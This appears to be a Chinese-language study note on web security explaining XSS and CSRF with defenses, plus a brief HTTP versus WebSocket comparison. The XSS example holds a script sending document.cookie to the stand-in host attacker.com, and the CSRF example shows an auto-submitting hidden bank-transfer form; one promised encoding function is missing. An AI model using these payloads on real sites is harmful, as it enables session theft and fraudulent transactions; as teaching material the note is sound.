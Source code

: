 ## 

## 网络安全
1. XSS（跨站脚本攻击）
> **原理**:攻击者通过在目标网站注入恶意脚本，当用户访问该网站时，恶意脚本会在用户浏览器中执行，从而获取用户的敏感信息，如 Cookie、会话令牌等。
> **示例**:假如一个论坛允许用户发表评论，但没有对用户输入进行过滤。攻击者可以在评论中输入如下恶意代码：
```html
<script>
  // 窃取用户的 Cookie 并发送到攻击者的服务器
  // 当其他用户查看该评论时，这段脚本就会在他们的浏览器中执行，导致 Cookie 信息泄露。
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://attacker.com/steal?cookie=' + document.cookie, true);
  xhr.send();
</script>
```
防护措施
> - 输入过滤：对用户输入进行严格的过滤和验证，只允许合法的字符和格式。
> - 输出编码：在将用户输入显示到页面上时，对特殊字符进行 HTML 实体编码，例如将 < 编码为 &lt;，> 编码为 &gt;。在 JavaScript 中可以使用如下函数进行编码：
2.CSRF（跨站请求伪造）
> **原理**:攻击者通过诱导用户在已登录的目标网站上执行非本意的操作。例如，用户在银行网站已登录，攻击者诱导用户访问恶意网站，该网站会向银行网站发送恶意请求，利用用户的登录状态进行转账等操作。
> **示例**:假设银行网站有一个转账接口 https://bank.com/transfer?to=attacker&amount=1000，攻击者可以在恶意网站中创建一个隐藏的表单：
```html
<!-- 当用户访问该恶意网站时，表单会自动提交，若用户在银行网站处于登录状态，就可能导致资金被盗取。 -->
<form action="https://bank.com/transfer" method="post">
    <input type="hidden" name="to" value="attacker">
    <input type="hidden" name="amount" value="1000">
    <input type="submit" value="Submit">
</form>
<script>
    document.forms[0].submit();
</script>
```
防护措施
> - 使用验证码：在关键操作（如转账、修改密码）时，要求用户输入验证码，确保是用户本人在操作。
> - 验证请求来源：检查请求的 Referer 头或使用 SameSite 属性来限制跨站请求。例如，设置 Cookie 的 SameSite 属性为 Strict 或 Lax：document.cookie = "session_id=12345; SameSite=Strict";

## http && WebSocket

> WebSocket 是一种在单个 TCP 连接上进行全双工通信的协议，它允许浏览器和服务器之间进行实时通信。与 HTTP 的区别如下：
> - **连接方式**：HTTP 是无状态的请求 - 响应协议，每次请求都需要建立新的连接；WebSocket 是持久连接，建立连接后可以持续进行数据传输。
> - **通信方式**：HTTP 是单向通信，客户端发起请求，服务器响应；WebSocket 是全双工通信，客户端和服务器可以同时发送和接收数据。
> - **实时性**：HTTP 不适合实时通信，每次通信都有一定的延迟；WebSocket 具有低延迟的特点，适合实时性要求较高的场景，如聊天应用、实时数据推送等。

